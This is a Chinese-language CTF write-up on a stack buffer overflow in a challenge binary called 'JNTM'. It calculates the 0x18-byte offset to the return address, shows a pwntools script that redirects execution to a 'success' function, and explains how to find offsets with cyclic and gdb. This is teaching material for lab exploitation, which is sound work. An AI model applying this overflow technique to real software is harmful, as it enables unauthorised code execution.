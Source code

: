 从这里可以看出来，变量所在位置是EBP地址-14h；

被调用函数的返回地址是EBP地址+4h

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159335.png)

vulnerable函数地址为0x80491C7（但这个其实是没用的，因为需要的不是vulnerable（）函数）

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159336.png)

success函数地址为0x8049166；

下面做一个简单的计算

vulenerable函数的返回地址就是EBP地址+4h=变量s地址+14h+4h=变量s地址+18h

所以需要填充18h字符长度的垃圾数据+success的地址即可

（18十六进制=24十进制，所以其实这里也可以用20个字符再加上ebp的地址，达到的是同样的效果（*垃圾教程还不如不看*））

shellcode:

```python
from pwn import *
cd = process("./JNTM")
whatever = 0x8049166
cd.sendline(b'A'*0x18 + p32(whatever))
cd.interactive()
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159337.png)

pwn!

小黑子（

*使用指令计算偏移量

```
cyclic 'n' #生成n个垃圾数据
```

怎么用呢？

首先输入cyclic 200(打个比方)，命令行中输出200个垃圾数据。

调试程序(gdb (file_name))，输入start开始运行，将垃圾数据粘贴入输入框：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159338.png)

提示在地址0x62616164处出错。

再输入cyclic查询语句：

```
cyclic -l *address
```

输出一个十进制数据，这就是需要填充的字符串长度（十进制）


